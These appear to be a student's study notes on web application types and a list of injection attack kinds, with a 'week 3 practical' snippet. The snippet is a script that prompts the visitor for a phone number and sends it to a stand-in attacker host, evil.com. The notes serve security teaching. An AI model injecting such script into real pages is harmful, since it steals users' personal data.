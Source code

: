 Types of web apps:
- static - any web app that can go directly to user browser without server-side alteration of HTTP response
- dynamic - generates pages / data in real-time per request, response triggers from server end and reach client end
![[Pasted image 20230804114121.png]]
Types of injection attacks:
- [[SQL injection]]
- [[Command injection]]
- LDAP injection
- CRLF injection
- Template injection
- XPath injection

Notes from week 3 practical:
```html
<script>
	let mobile = prompt("Please enter your phone number to proceed", "");
	window.location = 'http://evil.com/>?info=' + mobile;
</script>
```

This script is feeding the mobile info to the website.